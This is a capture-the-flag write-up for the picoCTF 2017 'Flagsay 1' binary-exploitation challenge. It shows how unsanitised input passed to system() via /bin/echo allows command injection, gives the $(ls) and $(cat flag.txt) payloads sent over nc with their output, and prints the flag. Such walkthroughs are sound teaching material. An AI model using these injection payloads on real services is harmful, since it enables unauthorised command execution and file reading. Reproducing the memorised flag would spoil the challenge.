 # Flagsay 1
## level 2 - binary exploitation

### Description
> I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](./data/flagsay-1)! [Source](./data/flagsay-1.c). Connect on shell2017.picoctf.com:12442.

### Hints
> * System will run exactly what the program gives it

### Solution

Connect with `nc` and prompt some string:

```
$ nc shell2017.picoctf.com 12442
hello
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //hello                              /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

A flag with our string will be printed. Let's look at the source how it's done: we don't have a `printf` function to show on screen, instead it calls `system` with `/bin/echo` and the flag string as parameter. As the hint suggests the software didn't any validation on input, so we can evaluate commands into `echo`:

```
$ nc shell2017.picoctf.com 12442
$(ls)
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //flagsay-1
flagsay-1_no_aslr
flag.txt
xinetd_wrapper.sh                              /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

Now we have the list of files in current folder, just `cat` the flag out:

```
nc shell2017.picoctf.com 12442
$(cat flag.txt)
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //6116b5c621137949e3f70fd31f7cc29a                    /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

### Flag
```
6116b5c621137949e3f70fd31f7cc29a
```